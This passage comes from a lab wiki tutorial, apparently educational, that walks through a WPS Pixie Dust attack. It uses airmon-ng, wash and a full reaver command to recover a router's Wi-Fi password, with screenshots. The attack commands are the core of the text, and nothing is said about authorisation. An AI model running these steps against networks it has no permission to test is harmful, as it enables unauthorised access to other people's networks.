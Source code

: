````
```
or 'sudo make install' if you're not logged in as 'root'

## Step 4 - Monitor Mode

Put your interface into monitor mode using 
```
airmon-ng start {wireless interface}
```
![](https://gitlab.dclabra.fi/wiki/uploads/upload_95bac241bc3ef17c95fca02b273b93e5.png)


## Step 5 - Find a Target

The easiest way to find a target with WPS enabled is

```
wash -i {monitor-interface}
```
![](https://gitlab.dclabra.fi/wiki/uploads/upload_cd1edebd4284517c4c0e1ed3ca6b2431.png)


Gather the BSSID and channel # for the router you want to attack.

## Step 6 - Launch the Attack

Once you have all the information, simply type in the following command:
```
reaver -i {monitor interface} -b {BSSID of router} -c {router channel} -vvv -K 1 -f
```
![](https://gitlab.dclabra.fi/wiki/uploads/upload_1dc7eedbf237296490d5022851906650.png)

## Step 7 - Jesh!

There's the password! 

![](https://gitlab.dclabra.fi/wiki/uploads/upload_b93d6f9e211f126e8aa6a93dfa9df142.png)

## HOX!
I'll do this last case using Raspi, so if you're looking for a cheap, handy platform to get started working with the pixie dust attack or what else attack, check out Kali Linux Raspberry Pi.



